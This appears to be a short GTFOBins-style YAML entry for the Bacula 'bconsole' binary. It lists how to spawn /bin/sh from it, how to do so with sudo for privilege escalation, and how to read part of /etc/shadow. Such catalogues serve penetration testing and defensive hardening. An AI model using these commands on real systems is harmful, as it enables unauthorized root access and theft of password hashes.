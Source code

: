 ```yaml
---
functions:
  shell:
    - description: The @exec function allows you to execute commands in the local tty
      code: |
        bconsole
        @exec /bin/sh
  sudo:
    - description: The @exec function allows you to execute commands in the local tty
      code: |
      sudo bconsole
        @exec /bin/sh    
  file-read:
    - description: The error message of the -c options displays the first line of a restricted file, when having sudo rights for the binary.
      code: sudo bconsole -c /etc/shadow
---
```

